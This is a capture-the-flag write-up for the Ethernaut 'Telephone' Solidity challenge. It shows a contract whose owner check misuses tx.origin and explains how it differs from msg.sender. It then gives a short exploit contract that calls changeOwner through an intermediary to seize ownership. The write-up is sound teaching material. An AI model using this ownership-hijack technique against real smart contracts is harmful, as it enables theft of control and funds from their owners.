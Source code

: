 # Telephone

>Claim ownership of the contract below to complete this level.

>  Things that might help
> - See the "?" page above, section "Beyond the console"

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

According to solidity documentation, tx.origin holds the address of the sender of the transaction and msg.sender holds the address of the sender of the message.

In other words, tx.origin refers to the address of the account that brought about the transaction while msg.sender is the direct caller of the smart contract, it could be a contract address or an account address.

![ethernaut-2](https://github.com/blueh4mster/Ethernaut-writeups/assets/102573660/b13ddeec-fdd4-4ca3-81fa-73e0b847eeb2)

In this challenge, we come across a smart contract Telephone which has a changeOwner function that compares tx.origin with msg.sender. If unequal, owner is changed to the address we provide else returned.

We can simply write another smart contract called exploit where we call the changeOwner function by instance of this contract provided to us.

When we do this, `tx.origin` is the account address which deploys the exploit contract and `msg.sender` is the address of the exploit contract.
The exploit contract can be written like this,

```solidity
contract exploit {
    Telephone telephone;

    constructor(address addr){
        telephone = Telephone(addr);
    }

    function attack() public {
        telephone.changeOwner(msg.sender);
    }
}
```

On calling the attack function, the owner of the telephone contract will be changed to our address(msg.sender). 

We can confirm so through the browser console and submit the instance.

(This exploit script can be deployed in remix IDE using Injected Web3 Provider MetaMask. Instance address of the challenge to be fed to the constructor.)

### Image Reference
[tx.origin vs msg.sender](https://davidkathoh.medium.com/tx-origin-vs-msg-sender-93db7f234cb9)
